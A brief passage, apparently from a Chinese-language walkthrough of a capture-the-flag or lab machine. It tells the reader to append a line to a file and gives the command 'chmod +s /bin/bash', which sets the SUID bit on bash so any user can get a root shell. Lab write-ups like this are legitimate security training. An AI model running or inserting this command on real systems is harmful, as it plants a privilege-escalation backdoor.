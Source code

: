 ![](./pic-vengeance/51.jpg)

直接在文件后面添加代码，以最简单的

```shell
chmod +s /bin/bash
```

![](./pic-vengeance/52.jpg)
